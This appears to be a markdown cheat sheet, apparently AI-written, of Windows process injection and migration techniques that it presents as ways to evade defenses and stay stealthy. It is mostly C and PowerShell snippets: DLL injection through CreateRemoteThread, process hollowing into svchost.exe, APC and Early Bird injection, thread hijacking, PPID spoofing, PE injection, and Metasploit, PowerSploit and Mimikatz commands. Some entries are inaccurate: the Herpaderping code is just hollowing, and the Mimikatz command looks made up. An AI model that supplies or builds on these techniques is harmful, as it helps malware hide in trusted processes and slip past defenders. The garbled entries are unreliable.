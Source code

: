 Here's a cheat sheet for **Windows Process Injection and Migration** techniques, commonly used in offensive security for evading defenses and maintaining stealth.

### **Windows Process Injection & Migration Cheat Sheet**

#### **Process Injection Techniques**

- **DLL Injection**
  
  Injecting a DLL into a target process by using API calls such as `CreateRemoteThread` and `LoadLibrary`.

  ```c
  HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, TargetProcessID);
  LPVOID pDllPath = VirtualAllocEx(hProcess, 0, strlen(DllPath) + 1, MEM_COMMIT, PAGE_READWRITE);
  WriteProcessMemory(hProcess, pDllPath, (LPVOID)DllPath, strlen(DllPath) + 1, 0);
  HANDLE hLoadThread = CreateRemoteThread(hProcess, 0, 0, (LPTHREAD_START_ROUTINE)LoadLibraryA, pDllPath, 0, 0);
  ```

- **Process Hollowing**

  Creating a suspended process, replacing its memory with malicious code, and resuming the process.

  ```c
  STARTUPINFOA si = { sizeof(si) };
  PROCESS_INFORMATION pi;
  CreateProcessA("C:\\Windows\\System32\\svchost.exe", NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi);
  WriteProcessMemory(pi.hProcess, BaseAddress, MaliciousCode, CodeSize, &Written);
  ResumeThread(pi.hThread);
  ```

- **APC (Asynchronous Procedure Call) Injection**

  Injecting code into a process by queuing an APC in the thread’s queue.

  ```c
  HANDLE hThread = OpenThread(THREAD_ALL_ACCESS, FALSE, ThreadID);
  QueueUserAPC((PAPCFUNC)InjectedCode, hThread, NULL);
  ResumeThread(hThread);
  ```

- **Reflective DLL Injection**

  Injecting a DLL into a process without writing it to disk by using reflection techniques.

  ```powershell
  Invoke-ReflectivePEInjection -PEBytes $PEBytes -ProcessID $PID
  ```

- **Thread Hijacking**

  Hijacking an existing thread of a process to execute malicious code.

  ```c
  SuspendThread(hThread);
  GetThreadContext(hThread, &ctx);
  ctx.Rip = (DWORD_PTR)InjectedCode; // For x64
  SetThreadContext(hThread, &ctx);
  ResumeThread(hThread);
  ```

- **Early Bird Injection**

  Injecting code into a process during its early stages (before the entry point is reached).

  ```c
  CreateProcessA(TargetProcess, NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi);
  NtMapViewOfSection(...); // Map section into target process
  QueueUserAPC(...); // Queue APC to execute the payload
  ResumeThread(pi.hThread);
  ```

- **Hook Injection**

  Modifying the execution flow of a process by placing hooks (e.g., in API functions).

  ```c
  // Example: Inline hooking a function
  BYTE originalBytes[5];
  ReadProcessMemory(hProcess, targetFuncAddr, originalBytes, 5, NULL);
  WriteProcessMemory(hProcess, targetFuncAddr, hookCode, 5, NULL);
  ```

#### ** Process Migration Techniques**

- **Process Injection + Process Termination**

  Injecting code into a new process and terminating the original process.

  ```c
  // Inject into new process
  HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, TargetProcessID);
  VirtualAllocEx(hProcess, ...);
  WriteProcessMemory(hProcess, ...);
  CreateRemoteThread(hProcess, ...);

  // Terminate original process
  TerminateProcess(hOriginalProcess, 0);
  ```

- **Parent Process Migration (PPID Spoofing)**

  Creating a new process with a spoofed parent process ID.

  ```c
  STARTUPINFOEXA si = { sizeof(si) };
  PROCESS_INFORMATION pi;
  UpdateProcThreadAttribute(...); // Set new PPID
  CreateProcessA("C:\\Windows\\System32\\svchost.exe", NULL, NULL, NULL, FALSE, EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, &si.StartupInfo, &pi);
  ```

- **Process Doppelgänging**

  Using a technique that involves NTFS transactions to inject code into a process without touching the disk.

  ```c
  NtCreateSection(...); // Create section in transacted file
  NtCreateProcessEx(...); // Create process using the transacted section
  ```

- **Process Herpaderping**

  A technique that obscures the real content of a PE file, allowing execution of malicious code without detection.

  ```c
  // Conceal actual payload within a legitimate-looking process
  CreateProcessA(TargetProcess, NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi);
  WriteProcessMemory(pi.hProcess, BaseAddress, ObfuscatedCode, CodeSize, &Written);
  ResumeThread(pi.hThread);
  ```

- **PE Injection**

  Injecting a portable executable (PE) directly into a target process’s memory.

  ```c
  LPVOID pRemoteImage = VirtualAllocEx(hProcess, NULL, pPEHeaders->SizeOfImage, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
  WriteProcessMemory(hProcess, pRemoteImage, pLocalImage, pPEHeaders->SizeOfImage, &nBytesWritten);
  ```

#### ** Tools & Commands**

- **Mimikatz**: Process Injection with Mimikatz
  
  ```powershell
  sekurlsa::inject - IfmImpersonationTarget
  ```

- **Metasploit**: Migration to another process
  
  ```bash
  migrate <PID>
  ```

- **PowerSploit**: Invoke-ReflectivePEInjection
  
  ```powershell
  Invoke-ReflectivePEInjection -PEBytes $PEBytes -ProcessID $PID
  ```

